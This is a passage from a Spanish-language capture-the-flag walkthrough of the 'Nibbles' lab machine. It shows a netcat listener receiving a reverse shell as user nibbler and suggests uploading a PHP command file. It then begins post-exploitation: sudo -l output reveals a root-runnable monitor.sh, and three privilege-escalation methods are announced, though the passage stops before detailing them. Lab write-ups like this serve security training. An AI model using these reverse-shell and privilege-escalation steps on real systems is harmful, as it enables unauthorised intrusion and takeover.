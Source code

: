 * Y ya estarás conectado:
```bash
nc -nvlp 443   
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.75] 38648
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:05:10 up  3:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```
Supongo que con este Exploit, podemos subir también nuestro **archivo CMD en PHP**, intenta probarlo.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Post" style="text-align:center;">Post Explotación</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2>Enumeración de Máquina Víctima</h2>

Hay 3 maneras para convertirnos en root. Pero para eso, necesitamos saber qué permisos tiene nuestro usuario:
```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Tenemos permisos para ejecutar el archivo **monitor.sh**. Si revisamos que archivos hay dentro del directorio del usuario Nibbles, veremos la flag, un archivo comprimido y los directorios en donde se encuentra el **archivo monitor.sh**.

Este archivo comprimido contiene el **archivo monitor.sh**.

<h2 id="Privesc">Escalando Privilegios de 3 Formas con Archivo .sh</h2>

**IMPORTANTE**
Vamos a hacer las 2 primeras formas de escalar privilegios con lo que tenemos.

La tercera forma debe ser sin que se descomprima el archivo **personal.zip**, prueba la que quieras. 
